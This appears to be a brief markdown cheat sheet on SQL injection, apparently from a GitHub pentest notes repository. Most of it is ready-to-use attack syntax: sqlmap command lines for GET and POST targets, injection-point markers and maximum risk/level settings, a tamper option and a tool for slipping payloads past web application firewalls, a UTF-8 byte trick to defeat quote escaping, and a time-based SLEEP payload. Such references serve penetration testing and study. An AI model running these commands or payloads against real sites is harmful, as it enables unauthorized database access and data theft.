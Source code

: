 # SQLi

## sqlmap

- https://github.com/sqlmapproject/sqlmap

```
# request in txt
sqlmap -r search-test.txt -p parameter

# post
sqlmap -o -u "http://example.com/index.php?id=1" --data="username=admin&password=pass&submit=+Login+" --method=POST
# get
sqlmap -u "http://example.com/index.php?id=1"

# with point of injection (*)
sqlmap -u "http://example.com/index.php?id=1*-133&debug=true"

# risk
sqlmap -u "http://example.com/index.php?id=1" --risk=3 --level=5

# headers
sqlmap --headers="HEADER"
```

## Temper

The ability to create payloads that can bypass waf

- https://github.com/m4ll0k/Atlas

Example:
```
--tamper="between,randomcase"
```

## Tricks

Sometimes sites append an extra (') character in injection. It is possible to bypass this behavior by abusing UTF-8. 
\xc2 asks for a follow up byte, the decoding of \xc2' (\xc2\x27) would result in a bypass.

## Sleep

```
randomtext%' OR SLEEP (5) #
```

## Articles

| URL | 
| --- |
| https://www.binarytides.com/sqlmap-hacking-tutorial/ |
| https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html|
